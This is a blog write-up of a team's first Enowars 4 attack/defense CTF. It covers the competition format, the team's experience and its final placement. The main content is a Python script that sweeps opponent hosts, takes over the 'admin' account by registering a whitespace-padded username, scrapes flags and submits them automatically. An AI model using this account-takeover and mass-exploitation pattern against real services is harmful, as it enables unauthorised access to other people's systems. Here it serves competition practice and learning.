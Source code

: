 ```yaml
---
title: Enowars 4 CTF
author: Lim Kai Xian (AxiaMil)
date: 2020-07-19 00:00:00 +0800
categories: [CTF, Enowars-4]
tags: [ctf, tech, web]
toc: true
comments: true
---
```



# What is Enowars Capture The Flag Competition

Enowars Capture The Flag competiton is by a CTF-Team & Workgroup for Computer Security located in TU Berlin. It is a 2 man Attack / Defense CTF played online where teams will have to attack and defend their vulnerable Machine by firstly identifying vulnerabilities in the machine. Teams will be awarded points base on the time their service is up and submitting flags to the server. After identifying the vulnerabilities, teams will need to patch their service in order for them to gain points as their service is up while preventing other teams from exploiting their services and getting the flag. Points are deducted when other teams get flag from your vulnerable machine.

![upload-image](/assets/img/blog/enowars-4-CTF/cover.png)

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.


# Our Experience

As this was my first time trying out an actual Attack / Defense CTF we spent some time finding out how it works. To add on, the timezone for the CTF was from 8pm to 5am hence we were not able to finish solving all the Challenges. Luckily, ColdSpot found a vulnerability on the service buggy and got the flag for it.

From there, we were able to write a script using python to get the flag automatically and submit to the flag collecter (enowars' server). This is our python script to solve the buggy challenge, It is in nowhere perfect as it took in other values other than the flag but submitting wrong flags wont penalize us so we did not really care much (It wasted time though).

```py
import requests
import re
import socket
import string
import signal
from contextlib import contextmanager

@contextmanager
def timeout(time):
    # Register a function to raise a TimeoutError on the signal.
    signal.signal(signal.SIGALRM, raise_timeout)
    # Schedule the signal to be sent after ``time``.
    signal.alarm(time)

    try:
        yield
    except TimeoutError:
        pass
    finally:
        # Unregister the signal so it won't be triggered
        # if the timeout is not reached.
        signal.signal(signal.SIGALRM, signal.SIG_IGN)


def raise_timeout(signum, frame):
    raise TimeoutError

def is_ascii(s):
    return all(ord(c) < 128 for c in s)

def get_flags():
    f = open("flag.txt", "r")
    known_flags = f.read().split('\n')
    ip_blacklist = [16,22,24,25,26,28,37,58,75,110,113,115,126,130,133,156,182,187,194]
    for i in range(1,198):
        if i in ip_blacklist:
            continue
        with timeout(10):
            try: 
                url = 'http://10.0.0.' + str(i) + ':7890/register'
                print(url)
                user_pass = {'username':'admin                                   ','pw':'lol'}
                s = requests.Session()
                s.post(url, data=user_pass)
                admin_url = 'http://10.0.0.' + str(i) + ':7890/user/admin'
                x = s.get(admin_url)
                result = re.findall("Status: (.*)</h3>", x.text)
                for u in result:
                    if string.printable not in u and u not in known_flags:
                        if u.strip() != '' and not is_ascii(u):
                            a.append(u)
            except:
                continue
    print('done')
while True:
    a = []

    get_flags()

    f_write = open("flag.txt", "a+")

    HOST = '10.0.13.37'
    PORT = 1337
    print(len(a))
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        while True:
            for i in a:
                s.sendall((i+'\n').encode('utf-8'))
                print(i+'\n')
                print(s.recv(1024))
                f_write.write(i + '\n')
            break
```

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.

[Check their website here](https://enowars.com/)

# Placement

Before, we went to sleep we were placed at the 40th position and were also the 3rd for Singapore.

![upload-image](/assets/img/blog/enowars-4-CTF/score.png)

Waking up, we were suprised we have passed the team above us and have gotten the 39th position as the script was running overnight for us LOL.

# Overall

Overall, even though we did not place high for the competition it was a good introduction to Attack / Defense CTF in general. I'm sure we will be able to perfom much better in the next Attack / Defense CTF we attend

# Resources & Challenges

[Challenges/Vulnerable Services](https://github.com/enowars/enowars4-vulnbox-services  
[Scoreboard used (Bambi Scoreboard)](https://github.com/enowars/bambi-scoreboard)  
[Infrastructure used (Bambi CTF Infrastructure)](https://github.com/enowars/bambictf)  